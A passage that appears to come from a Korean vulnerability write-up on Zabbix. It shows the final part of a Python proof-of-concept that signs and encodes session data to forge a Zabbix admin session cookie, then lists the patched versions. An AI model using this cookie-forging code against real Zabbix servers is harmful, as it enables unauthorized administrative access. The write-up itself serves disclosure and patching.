 ```python
    def calculate_signature(data, key):
        key_bytes = key.encode()
        data_bytes = data.encode('utf-8')
        return hmac.new(key_bytes, data_bytes, hashlib.sha256).hexdigest()

    def encode_session_data(session_data, key):
        session_data_sorted = OrderedDict(sorted(session_data.items()))
        session_data_sorted['sign'] = calculate_signature(json.dumps(session_data_sorted, separators=(',', ':')), key)
        encoded_data = base64.b64encode(json.dumps(session_data_sorted, separators=(',', ':')).encode('utf-8')).decode('utf-8')
        return encoded_data

    session_structure = {
        "sessionid": session_id,
        "serverCheckResult": True,
        "serverCheckTime": int(time.time())
    }

    return encode_session_data(session_structure, session_key)

if __name__ == "__main__":
    session_id = extract_session_id()
    session_key = extract_session_key()
    admin_session_cookie = generate_session_cookie(session_id, session_key)
    print(f"Generated Zabbix admin session cookie: {admin_session_cookie}")

```

# 4. 패치


## UnAffected version


- Zabbix >= 6.0.32rc1
- Zabbix >= 6.4.17rc1
- Zabbix >= 7.0.1rc1


![/assets/2025-01-02-youngdu/image.png](/assets/2025-01-02-youngdu/image%2010.png)
